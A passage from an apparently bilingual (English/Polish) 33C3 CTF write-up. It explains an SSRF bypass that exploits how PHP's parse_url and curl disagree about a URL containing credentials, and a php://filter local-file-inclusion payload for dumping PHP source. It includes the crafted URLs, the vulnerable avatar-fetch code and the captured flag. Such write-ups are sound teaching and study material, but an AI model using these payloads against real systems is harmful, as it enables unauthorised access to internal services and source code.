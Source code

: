 We remember that there was a similar vulnerability exploited on a CTF a while ago.
The PHP function does not parse url correctly if username and passwords are provided!
If we use URL `http://what:ever@127.0.0.1:80@33c3ctf.ccc.ac/reeeaally/reallyy/c00l/and_aw3sme_flag`

The PHP will get:

```
array (
  'scheme' => 'http',
  'host' => '33c3ctf.ccc.ac',
  'user' => 'what',
  'pass' => 'ever@127.0.0.1:80',
  'path' => '/reeeaally/reallyy/c00l/and_aw3sme_flag',
)
```

So it will assume we query the host `33c3ctf.ccc.ac` and the CIDR checks will not block us.
But what curl will assume is that the user is `what`, pass is `ever` and host is `127.0.0.1:80`, which is exactly what we need.

So in the end we will get:

```
Does this look like an image to you???????? people are dumb these days...

33C3_w0w_is_th3r3_anything_that_php_actually_gets_right?!??? 
```

###PL version

W zadaniu dostajemy stronę internetową gdzie można tworzyć sobie listy.
Szybko zauważamy że można zalogować się jako admin z dowolnym hasłem i dowiadujemy się, ze flaga jest pod `http://78.46.224.80/reeeaally/reallyy/c00l/and_aw3sme_flag`
Nie możemy jednak po prostu jej odczytać, bo request musi iść z IP 127.0.0.1

Szybko zauważyliśmy też, że jest tam podatność php filter połączona z local file inclusion.

Linki to np. `http://78.46.224.80/?page=profile` a parametr GET `page` jest includowany z dodaniem `.php`.
Możemy jednak zrobić `http://78.46.224.80/?page=php://filter/read=convert.base64-encode/resource=profile` aby dostać zawartość includowanego pliku jako base64.

W ten sposób wyciągamy źródła wszystkich plików php.

Są tam dwa ciekawe elementy.
Pierwszy to miejsce gdzie możemy załadować avatar z podanego przez nas linku.
Plik zostanie pobrany i jeśli nie jest obrazkiem, wypisana zostanie jego zawartość.
To wydaje się idealne do naszych potrzeb ponieważ wypisze nam flagę a request będzie szedł z localhosta.

```php
if (isset($_POST["pic"]) && $_POST["pic"] != "" && !is_admin()) {
	$pic = get_contents($_POST["pic"]);
	if (!is_image($pic)) {
		die("<p><h3 style=color:red>Does this look like an image to you???????? people are dumb these days...</h3></p>" . htmlspecialchars($pic));
	} else {
		$pic_name = "profiles/" . sha1(rand());
		file_put_contents($pic_name, $pic);
	}
}
```
